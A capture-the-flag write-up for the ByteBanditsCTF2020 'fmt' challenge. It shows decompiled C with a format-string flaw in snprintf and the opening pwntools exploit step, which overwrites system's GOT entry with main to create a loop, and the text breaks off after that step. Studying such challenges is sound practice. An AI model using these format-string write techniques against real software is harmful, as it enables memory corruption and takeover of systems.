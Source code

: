 ### Description

> Format strings are so 2000s. 
>
> nc [pwn.byteband.it](http://pwn.byteband.it) 6969


### Attachment

[fmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/fmt/fmt)

### Analysis

In `snprintf`, our input string (`buf`) will be formated to `other_buf` :

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char buf; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Choose your name");
  puts("1. Lelouch 2. Saitama 3. Eren");
  printf("Choice: ", 0LL);
  if ( get_int() == 2 )
  {
    puts("Good job. I'll give you a gift.");
    read(0, &buf, 0x100uLL);
    snprintf(other_buf, 0x100uLL, &buf);
    system("echo 'saitama, the real hero'");
  }
  return 0;
}
```

> string will not print to `stdin`, so we can use `%ln` to write memory with any values directly

### Solution

#### infinite loop

First of all, as the binary closes after `system` function,  an `infinite loop` should be created.

We need overwrite GOT of `system` with address of `main` and it can be easily done by `fmtstr_payload` of `pwntools` :

```python
# infinite loop
fmt1 = fmtstr_payload(6,{elf.got['system']:elf.sym['main']},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt1)
```
